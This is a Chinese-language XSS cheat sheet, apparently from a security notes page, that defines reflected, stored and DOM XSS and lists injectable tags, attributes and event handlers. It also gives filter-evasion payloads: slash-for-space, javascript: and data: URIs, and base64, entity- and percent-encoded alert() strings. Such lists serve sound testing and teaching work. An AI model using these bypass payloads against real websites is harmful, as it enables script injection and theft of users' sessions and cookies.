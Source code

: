 # 基本概念

**跨站脚本（Cross-site scripting，通常简称为：XSS）**是一种代码注入攻击，攻击者通过在目标网站上注入恶意脚本，用户访问网站时会不知不觉加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

**分类：反射型、存储型、DOM型**

本质：恶意代码没有经过过滤，与网站正常的代码混在一起，浏览器无法分辨哪些脚本是可信的，导致恶意代码执行。

# 利用方法

## 找输入输出

* 属性
```plain
formaction action href xlink:href autofocus src content data
```
* 标签
```plain
<script> <a> <p> <img> <body> <button> <var> <div> <iframe> <object> <input> <select> <textarea> <keygen> <frameset> <embed> <svg> <math> <video> <audio>　
```
>没有标签也可以制造标签
* 事件
```plain
onload onunload onchange onsubmit onreset onselect onblur onfocus onabort onkeydown onkeypress onkeyup onclick ondbclick onmouseover onmousemove onmouseout onmouseup onforminput onformchange ondrag ondrop onshow onwheel
```
## 小技巧

* 标签和属性之间不一定只出现空格
>`<img/src=x onerror=alert(1)>`有些情况下我们可以使用"/"来代替空格
* href当中使用javascript或者data URI
```plain
<a href=javascript:alert(2)>M 
<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>
```
* 编码
>对百分号二次编码
>Base64 编码绕过
>HTTP 实体编码绕过
>`<a href=javascript&colon;confirm(2)>M`
>\x十六进制，八进制,hex,demical
>Unicode码
>urlencode
```plain
<a href= 'javascript:alert&#40;&#39;123&#39;&#41; '>Hello</a>
<a href= "j&#97;vascript:alert&#40; '123' &#41;">Hello</a >
<a  href=  "j&#97;vascript:alert&#0000040;  '123' &#41;">Hello</a >
<a  href=  "j&#97vascript:alert&#0000040'123' &#41">Hello</a >
<a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>M 
<a href=j&#x61;v&#97script&#x3A;&#97lert(13)>M
```
>eval 认识\x十六进制，八进制，Unicode码
* CSS表达式
* 转义字符
* URL 中有可自定义的控制的前端编码
* 宽字节绕过
* 头部base绕过
* Referer为空时才可以访问(有一些界面为了避免是从别的地方跳转过来的，就需要referer为空)